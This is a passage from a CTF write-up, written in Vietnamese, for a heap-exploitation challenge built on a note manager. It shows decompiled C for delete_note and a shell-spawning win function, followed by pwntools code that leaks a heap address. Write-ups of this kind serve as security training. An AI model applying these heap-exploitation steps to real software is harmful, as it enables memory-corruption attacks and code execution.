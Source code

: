 ```c 
}
```

- đơn giản là in ra title và content trong 1 note 

### delete_note 

```c 
int __fastcall delete_note(int a1)
{
  int v2; // [rsp+18h] [rbp-18h]
  _QWORD *ptr; // [rsp+20h] [rbp-10h]
  void *s; // [rsp+28h] [rbp-8h]

  if ( !note[a1] )
    return puts("Note doesn't exist!");
  ptr = (_QWORD *)note[a1];
  v2 = (*(ptr - 1) & 0xFFFFFFF0) - 16;
  s = *(void **)((char *)ptr + v2);
  memset(s, 0, (int)((*((_QWORD *)s - 1) & 0xFFFFFFF0) - 16));
  free(s);
  memset(ptr, 0, v2 + 8);
  free(ptr);
  note[a1] = 0LL;
  return puts("Done!\n\n");
}
```

- ở đây thì free thằng content trước sau đó mới free thằng title 
- nếu để ý nãy giờ ta thấy có điều quang trọng là dữ liệu ta nhập sẽ được lưu trong stack, sau đó hàm strcpy() sẽ gán nó vào trong heap nên sẽ có 1 byte null ở cuối, cuối cùng hàm memset sẽ xóa dữ liệu trong stack đi 

![image](https://github.com/gookoosss/CTF/assets/128712571/43d9424b-735b-41d5-bb72-688f10cdbcc2)


- à chall còn cho sẵn ta 1 hàm tạo shell luôn, sẽ giúp ích cho việc ta khai thác

```c 
int read_function()
{
  return system("/bin/sh");
}
```

## Exploit 

### Leak Heap 
- vì chall này rất dài nên ta sẽ làm cái dễ nhất trước là leak heap 
- như phân tích ở trên thì ở cuối title sẽ có địa chỉ content , lợi dụng điều này ta leak được heap( chú ý tránh null byte)

```python 
add(0,0x50,b'A'*0x50,0x50,b'a'*0x50) #a2a0 #a300
edit_content(0,0x100,b'b'*160) #free a300 #a360
show(0)
p.recvuntil(b'A'*0x50)
heap_leak = u64(p.recv(6)+b'\0\0')
heap_base = heap_leak - 0x360
info("heap leak: " + hex(heap_leak))
info("heap base: " + hex(heap_base))
```
